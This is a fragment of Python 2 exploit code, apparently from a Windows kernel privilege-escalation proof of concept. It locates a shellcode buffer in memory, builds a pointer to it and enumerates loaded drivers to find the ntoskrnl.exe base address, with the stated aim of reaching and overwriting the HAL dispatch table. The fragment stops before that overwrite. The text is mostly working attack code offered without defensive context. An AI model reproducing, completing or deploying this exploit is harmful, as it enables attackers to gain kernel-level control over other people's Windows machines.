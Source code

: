 ```python

# Python, when using id to return a value, creates an offset of 20 bytes ot the value (first bytes reference variable)
# After id returns the value, it is then necessary to increase the returned value 20 bytes
payload_address = id(payload) + 20
payload_updated = struct.pack("<L", ptr)
payload_final = id(payload_updated) + 20

# Location of shellcode update statement
print "[+] Location of shellcode: {0}".format(hex(payload_address))

# Location of pointer to shellcode
print "[+] Location of pointer to shellcode: {0}".format(hex(payload_final))

# The goal is to eventually locate HAL table.
# HAL is exported by ntoskrnl.exe
# ntoskrnl.exe's location can be enumerated via EnumDeviceDrivers() and GetDEviceDriverBaseNameA() functions via Windows API.

# Enumerating addresses for all drivers via EnumDeviceDrivers()
base = (c_ulong * 1024)()
get_drivers = psapi.EnumDeviceDrivers(
    byref(base),                      # lpImageBase (array that receives list of addresses)
    c_int(1024),                      # cb (size of lpImageBase array, in bytes)
    byref(c_long())                   # lpcbNeeded (bytes returned in the array)
)

# Error handling if function fails
if not base:
    print "[+] EnumDeviceDrivers() function call failed!"
    sys.exit(-1)

# Cycle through enumerated addresses, for ntoskrnl.exe using GetDeviceDriverBaseNameA()
for base_address in base:
    if not base_address:
        continue
    current_name = c_char_p('\x00' * 1024)
    driver_name = psapi.GetDeviceDriverBaseNameA(
        base_address,                 # ImageBase (load address of current device driver)
        current_name,                 # lpFilename
        48                            # nSize (size of the buffer, in chars)
    )

    # Error handling if function fails
    if not driver_name:
        print "[+] GetDeviceDriverBaseNameA() function call failed!"
        sys.exit(-1)

    if current_name.value.lower() == 'ntkrnl' or 'ntkrnl' in current_name.value.lower():

        # When ntoskrnl.exe is found, return the value at the time of being found
        current_name = current_name.value

        # Print update to show address of ntoskrnl.exe
        print "[+] Found address of ntoskrnl.exe at: {0}".format(hex(base_address))

        # It assumed the information needed from the for loop has been found if the program has reached execution at this point.
        # Stopping the for loop to move on.
        break
    
# Now that all of the proper information to reference HAL has been enumerated, it is time to get the location of HAL and HAL 0x4
```